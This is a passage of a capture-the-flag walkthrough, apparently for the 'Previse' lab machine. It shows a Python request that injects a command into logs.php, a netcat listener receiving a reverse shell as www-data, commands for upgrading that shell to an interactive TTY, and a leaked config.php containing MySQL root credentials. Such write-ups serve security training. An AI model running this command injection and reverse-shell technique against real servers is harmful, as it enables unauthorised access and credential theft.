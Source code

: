 ```python
}

logs_data = {
        "delim": payload
}

login_res = r.post(login_url, data=login_body)
logs_res = r.post(logs_url, data=logs_data, headers=headers)
```

The script above will send the payload to the `logs.php`and allow us to instantiate a connection with the victim server.

```python
nc -lvnp 3001
```

The above snippet is necessary to accept the incoming connection from the command that we injected with the payload.

This will, inevitably, provide us with a reverse shell:

```bash
www-data@previse: $ whoami
> www-data
```

Before we move on, an augmented reverse shell could prove very useful in the long run, therefore the following few commands will display how to do so:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

# User

Among the files found in the SiteBackup.zip, we also had a `config.php` file. This file, conveniently, contains credentials to a MySQL database!

```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

